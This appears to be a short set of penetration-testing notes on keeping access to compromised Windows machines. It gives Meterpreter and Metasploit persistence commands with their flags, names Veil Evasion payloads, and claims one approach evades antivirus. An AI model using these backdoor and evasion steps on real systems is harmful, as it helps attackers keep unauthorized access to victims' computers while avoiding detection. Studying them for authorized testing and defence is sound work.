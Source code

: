 ```yaml
---
title: Maintaining Access
---
```


### Veil Evasion

Use rev_http_service, rev_tcp_service  
Can be used in place of normal backdoor  
Does not always work

---

### Meterpreter - Persistence Module

````bash
persistence -h # Help Menu
run persistence -U -i <n> -p <port> -r <ip-address>
````

**Flags**:  
-U : Start on user login  
`-i <n>` : Try to connect every n secs  
-p : Port  
-r : Attacker IP Address  
-X : Automatically start on system boot

For detecting the connection a new "Multi Handler" will have to be setup  
Issue with Approach : Easily detected by Antivirus

---

### Metasploit and Veil Evasion

````bash
use exploit/windows/local/persistence
show options
````

EXE_NAME : Name to Backdoor to show in Explorer.exe  
SESSION : Current listening session

````bash
show advanced
````

EXE::Custom : Path to our custom backdoor

````bash
exploit
````

This approach is the most robust and is not detected by antivirus software

---

Another good Persistence module that can be used without Veil Framework

````bash
use exploit/windows/local/persistence_service
````